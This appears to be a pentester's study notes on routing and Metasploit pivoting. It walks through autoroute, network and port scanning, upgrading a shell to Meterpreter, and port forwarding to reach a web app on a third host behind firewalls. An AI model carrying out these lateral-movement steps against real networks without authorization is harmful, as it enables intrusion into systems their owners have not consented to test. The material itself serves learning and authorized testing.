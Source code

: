 ```yaml
---
description: routing and other important networking concepts regarding PenTesting
---
```


# 💻Networking

## Routing

### get route table:

```
ip route
route -n
```

### add a route

```
ip route add <net_id>/<mask> via <net_getaway>
```

meterpreter:

```
route add x.x.x.0/24 1 (this is the session you want this to add to)
route list
//You should see the route now.

//Then go back into your session by:
sessions -i 1
```

{% embed url="https://www.offensive-security.com/metasploit-unleashed/pivoting" %}
I followed this guide then portfwd add for whatever port I found
{% endembed %}

{% embed url="https://www.youtube.com/watch?v=MeSql-3aOsM" %}

```
use auxilary/scanner/discovery/udp_prob
set RHOSTS <target_ip>

route add <target_ip>/24 1  //routing inside the seesion so it will send these udp probs following this routing rule
route print

set THREADS 20  //20 hosts at the same time
run
```

{% embed url="https://www.youtube.com/watch?v=Zu8SixuIMww" %}

```bash
inside a meterpreter session:

meterpreter> run autoroute -s <new_ip_found_inside_target>/24
meterpreter > run autoroute -p //print all routes

//now the routing is down inside a metasploite so lets scan the network using it
background
use auxiliary/scanner/netbios/nbname   //for win env

set RHOSTS <new_net_ip>/24
run

// found a new ip time for port scanner for the new target
 use auxiliary/scanner/portscan/tcp
 set RHOSTS <new_TRAGET_Discovered_using_first_target_IP>
 set THREADS 5
 run
 
//then use another auxiliary to discover the ver for the specified deamon found
//ex:ftp

use auxiliary/scanner/ftp/ftp_version
st RHOSTS <new_TRAGET_Discovered_IP>
run

//then you can search for an exploit for that ftp banner
//then you would pobably get shell you can use to_meterpreter module

use post/multi/manage/shell_to_meterpreter
set LHOST <first_target_in_new_net_IP>
set session <shell_session_id>
run

//now you have a new session it's the meterpreter
session -i <new_meter_sessoin>

//then repeat the same thing with the new session
meterpreter> autoroute -s <2nd_target_ip_net>/24
background

route print

//assuming the 2nd target connected to
// a 3rd target that runs ion TCP:80
//you found the 3rd target 
//by repeating steps above inside the 2nd target.

session -i <2nd_target_sesssion_id>
meterpreter > portfwd add -l 8888 -p 80 <third_target_ip>

//now you device can connect to 3rd target webapp 
//(whichs was behind 3 FireWalls) 

now inside your machine:
netstat -altp

will give you will see 0.0.0.0:8888 listening on ruby
```

{% embed url="https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/post/multi/manage/shell_to_meterpreter.md" %}
upgrade a shell to meterperter over pivot
{% endembed %}

{% embed url="https://www.jaacostan.com/2021/06/pivoting-via-meterpreter-metasploit-v6x.html" %}

